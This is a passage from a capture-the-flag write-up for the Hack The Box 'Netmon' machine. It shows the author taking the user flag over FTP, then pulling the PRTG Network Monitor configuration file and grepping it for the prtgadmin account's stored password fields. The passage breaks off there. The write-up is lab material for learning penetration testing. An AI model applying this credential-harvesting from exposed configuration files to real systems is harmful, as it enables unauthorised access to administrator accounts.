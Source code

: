 ```console
226 Transfer complete.

ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0.04 secs (0.8679 kB/s)

root@apollo:~/htb/netmon# ls
10-10-10-152.gnmap  10-10-10-152.nmap  10-10-10-152.xml  user.txt  writeup
root@apollo:~/htb/netmon# cat user.txt
dd58c******************255a5
```

This was quite an easy user flag, this makes me worried about root.

### Root Flag

So since we already have access to this machine via FTP we should take a look around and look for anything related to the title of the box, in this case PRTG **Net**work **Mon**itor. 

I ended up finding the PRTG network install and configuration data, I was able to grab it and move it over to my machine to see what I could find. I also found a reddit thread on good ole [/r/sysadmin](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) talking about PRTG exposing domain accounts and passwords in plain text. 

```console
root@apollo:~/htb/netmon# cat PRTG\ Configuration.dat | grep 'prtgadmin' -B 5 -A 30
                </homepage>
                <lastlogin>
                  43522.1088048495
                </lastlogin>
                <login>
                  prtgadmin
                </login>
                <name>
                  PRTG System Administrator
                </name>
                <ownerid>
                  100
                </ownerid>
                <password>
                  <flags>
                    <encrypted/>
                  </flags>
                  <cell col="0" crypt="PRTG">
                    JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======
                  </cell>
                  <cell col="1" crypt="PRTG">
                    OEASMEIE74Q5VXSPFJA2EEGBMEUEXFWW
                  </cell>
                </password>
                <playsound>
                  0
                </playsound>
                <position>
                  2147483647
                </position>
                <primarygroup>
                  200
                </primarygroup>
                <sensfoldsize>
```